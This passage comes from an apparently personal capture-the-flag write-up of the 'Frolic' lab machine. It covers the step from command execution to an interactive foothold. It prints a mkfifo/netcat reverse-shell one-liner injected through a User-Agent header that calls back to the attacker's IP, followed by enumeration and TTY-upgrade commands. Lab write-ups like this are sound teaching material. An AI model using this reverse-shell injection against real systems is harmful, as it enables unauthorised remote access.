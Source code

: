 <br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/frolic_writeup/Frolic_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I can execute commands on the victim machine, I test the connectivity to it before trying to get a **Reverse Shell**. The next step is to send me the **Reverse Shell**, there are many resources on the Web to find examples, but I always resort to **[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_target"}**, so I repeat the steps indicated in the exploit and inject the command I want and now I can access the host, now I can execute my first enumeration commands.

```bash
tcpdump -i tun0 icmp -n
#      User-Agent: ping -c 1 10.10.14.16            :)

nc -nlvp 443
#      User-Agent: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 443 >/tmp/f     :)

whoami
hostname
hostname -I
uname -a
lsb_release -a
# xenial !!!
```

<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/frolic_writeup/Frolic_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Before I continue listing the system, I am going to perform a **Console treatment** to move with greater agility. First some interesting files in the current directory and I find some credentials of known services that can serve me for later, also I can already see the contents of the first flag to prove to have compromised the machine.

```bash
which python3
python3 -c 'import pty;pty.spawn("/bin/sh")'                # [Ctrl^Z]
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128
```
